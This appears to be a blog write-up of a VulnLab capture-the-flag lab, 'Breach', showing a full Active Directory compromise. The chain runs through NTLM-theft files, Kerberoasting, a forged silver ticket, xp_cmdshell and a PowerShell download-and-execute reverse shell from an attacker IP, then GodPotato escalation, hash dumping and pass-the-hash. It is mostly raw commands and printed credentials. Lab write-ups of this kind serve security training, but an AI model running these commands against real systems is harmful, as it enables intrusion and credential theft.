 ```yaml
---
title: VulnLab -- Breach Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Silver Ticket,MSSQL Abuse,NTLM Relaying]
image:
    path: /images/Breach-banner.png
---
```

# Breach

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Breach** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/breach-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3268,51742,51725,80,464,9389,3269,636,1433,135,593,5985,139,49667 --min-rate=1000 10.10.117.12
```

![image.png](../images/breach.png)

Now let’s go and enumerate the shares

```bash
nxc smb breach.vl -u 'guest' -p '' --shares
```

![image.png](../images/breach%201.png)

> Notice that we got access to two shares
> 

let’s connect to the users share

```bash
smbclient \\\\breach.vl\\Users -U "breach.vl\guest"
```

![image.png](../images/breach%202.png)

we didn’t find anything interesting so let’s go and get the domain users

```bash
nxc smb breach.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/breach%203.png)

now save the results and let’s extract the users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/breach%204.png)

Notice that we have a writable share so let’s go create a malisons file to help us steal the ntlm hashes of any user enter the share

```bash
python3 ntlm_theft.py --generate all --server 10.8.5.233 --filename remo
```

![image.png](../images/breach%205.png)

Now let’s open responder to catch the ntlm hashes

```bash
sudo responder -I tun0
```

![image.png](../images/breach%206.png)

now let’s upload the generated files

```bash
smbclient \\\\breach.vl\\share -U "breach.vl\guest"
```

![image.png](../images/breach%207.png)

now let’s put the generated files

```bash
prompt off
mput *
```

![image.png](../images/breach%208.png)

Now let’s go back to responder and see if we got any hashes

![image.png](../images/breach%209.png)

and we got the hash of Julia.Wong so let’s crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2010.png)

> As we see we got the password of Julia
> 
> 
> username: Julia.Wong
> password: Computer1
> 

Now let’s see if it’s working

```bash
nxc smb breach.vl -u 'Julia.Wong' -p 'Computer1'
```

![image.png](../images/breach%2011.png)

And it’s working!

Now let’s get bloodhound

```bash
bloodhound-python -ns 10.10.117.12 -d breach.vl -u Julia.Wong -p Computer1 -c all --zip
```

![image.png](../images/breach%2012.png)

Now let’s open the bloodhound and see if we have interesting permissions

![image.png](../images/breach%2013.png)

> Notice that our user is member of Print Operators
> 

Now let’s see the kerbeorstable users 

```bash
impacket-GetUserSPNs breach.vl/'Julia.Wong':'Computer1' -target-domain breach.vl -dc-ip 10.10.117.12 -request -outputfile crackme.txt
```

![image.png](../images/breach%2014.png)

Now let’s try to crack it’s passowrd

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2015.png)

> And we go the password of the svc_sql
username: svc_mssql
password: Trustno1
> 

Now let’s try to login to the MSSQL service

```bash
nxc mssql breach.vl -u svc_mssql -p 'Trustno1'
```

![image.png](../images/breach%2016.png)

Now let’s get a silver ticket to forge administrator for MSSQLservice

```bash
impacket-ticketer -domain breach.cl -dc-ip 10.10.117.12 -domain-sid S-1-5-21-2330692793-3312915120-706255856 -spn MSSQLSvc/breachdc.breach.vl:1433 administrator -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
```

![image.png](../images/breach%2017.png)

Now let’s export the ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/breach%2018.png)

Now let’s connect to MSSQL Service

```bash
impacket-mssqlclient -k breachdc.breach.vl
```

![image.png](../images/breach%2019.png)

now let’s enable the xp_cmdshell function

```bash
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

![image.png](../images/breach%2020.png)

Now let’s try to execute commands

```bash
exec master..xp_cmdshell 'whoami'
```

![image.png](../images/breach%2021.png)

And we got code execution so let’s go and  get a reverse shell

Now let’s open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/breach%2022.png)

now let’s go and execute a reverse shell

```bash
exec master..xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.8.5.233/rev.ps1')"
```

![image.png](../images/breach%2023.png)

and we go a shell!

Now let’s see our privileges 

```bash
whoami /all
```

![image.png](../images/breach%2024.png)

> Notice that we have the Impersonation privileges
> 

So let’s download and execute the God Potato to get system access

```bash
 .\gp.exe -cmd "cmd /c whoami"
```

![image.png](../images/breach%2025.png)

Now let’s add Julia.Wong as a local administrator

```bash
.\gp.exe -cmd "cmd /c net localgroup administrators Julia.Wong /add"
```

![image.png](../images/breach%2026.png)

Now let’s dump the hashes using secrets dump

```bash
impacket-secretsdump breach.vl/Julia.Wong:'Computer1'@10.10.117.12
```

![image.png](../images/breach%2027.png)

Now let’s login as administrator

```bash
evil-winrm -i breach.vl -u administrator -H 'd9a47efd620c2f6d349dd035274d2117'
```

![image.png](../images/breach%2028.png)

now let’s go to the administrator folder and get the flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/breach%2029.png)

Amazing we got the root flag 🥳

![image.png](../images/breach%2030.png)

That’s it for the **Breach** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX
